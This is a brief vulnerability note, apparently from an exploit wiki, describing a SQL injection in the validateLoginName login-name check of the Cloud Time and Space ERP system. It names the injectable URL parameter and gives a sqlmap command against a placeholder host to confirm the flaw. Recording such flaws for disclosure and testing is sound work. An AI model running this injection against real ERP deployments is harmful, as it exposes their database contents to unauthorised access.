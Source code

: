 # Cloud Time and Space Socialized Commercial ERP System validateLoginName SQL Injection Vulnerability

## Vulnerability Description

Cloud Time and Space Socialized Commercial ERP system has SQL injection vulnerabilities, and attackers can obtain database sensitive information through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Cloud and Space-Time Socialized Commercial ERP System</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1630040977210-31a0a314-667a-4cbe-9a9b-dce153582ee0-20220313155426852.png)

Verification vulnerability using SQLmap

```python
sqlmap -u "http://xxx.xxx.xxx.xxx/sys/user/validateLoginName?loginName=admin"
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1630041138096-be221d73-c3e6-44b8-b0e8-71a999cb58f7.png)